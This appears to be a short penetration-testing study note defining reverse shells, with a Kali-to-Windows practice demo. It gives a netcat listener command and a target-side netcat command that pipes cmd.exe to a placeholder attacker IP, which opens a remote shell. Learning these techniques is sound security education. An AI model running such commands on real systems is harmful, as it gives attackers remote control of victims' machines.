 # Reverse Shells

* A <mark style="color:red;">reverse shell</mark> is a type of remote shell where the target connects directly to a listener on the attacker's system, consequently allowing for execution of commands on the target system.

<figure><img src="../../.gitbook/assets/image (94).png" alt=""><figcaption></figcaption></figure>

## Practice Demo

Attacker system is Kali

Target is Windows

#### Set up listener on attacker system

* <mark style="color:yellow;">nc -nvlp 1234</mark>

#### Connecting from the target machine to the attackers

* <mark style="color:yellow;">nc -nv attackerIP 1234 -e cmd.exe</mark>
